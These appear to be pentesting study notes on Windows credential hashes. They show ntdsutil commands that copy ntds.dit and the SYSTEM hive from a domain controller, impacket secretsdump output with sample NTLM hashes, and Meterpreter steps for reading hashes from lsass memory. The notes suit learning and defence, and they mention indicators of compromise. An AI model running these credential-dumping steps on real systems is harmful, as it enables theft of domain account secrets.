 1. Convert password into Unicode: B\x00u\x00D\x.......
2. Convert Unicode into MD4: 17a7afd......
3. Stored encrypted using RC4 or AES-CBC-128 in SAM registry

#### Domain Controller Hashes

- Hash data is encrypted
- Administrator access for the workstaion required
- Domain Admin NOT required

##### 1. Obtain

Built-in `ntdsutil` is used as Living Off the Land (LOTL) Attacks. `C:\ntds`
 could be IOC if AD back up is not intentionally made. These are required to crack password hashes:
- SYSTEM registry
- ntds.dit

```
C:\Users\Administrator> ntdsutil
ntdsutil: activate instance ntds
Active instance set to "ntds".
ntdsutil: ifm
ifm: create full c:\ntds
...
Copying registry files...
Copying c:\ntds\registry\SYSTEM
Copying c:\ntds\registry\SECURITY
IFM media created successfully in c:\ntds
ifm: quit
ntdsutil: quit
```

##### 2. Decrypt

One way is use [impacket](https://github.com/fortra/impacket) to **DECRYPT** ntds.dit with SYSTEM registry.

```
$ secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
Impacket v0.9.12 - Copyright 2002-2014 Core Security Technologies
[*] Target system bootKey: 0x7b1c658edfb752594c688e02d4424924
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] Pek found and decrypted: 0x1e0d9fa12fb2367f15f22517aa31e84d
[*] Reading and decrypting hashes from Active Directory/ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9491b24e8c931559455ed4f59476cec2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ksmith:1000:aad3b435b51404eeaad3b435b51404ee:0d728e7124d33a371124d097160d98de:::
```

#### Windows 10

##### Meterpreter

- Use lsass.exe to read password hashes from memory. Often fails for modern systems.
- Meterpreter use lsass proces by `migrate 620` so it can have an access to the protected memory
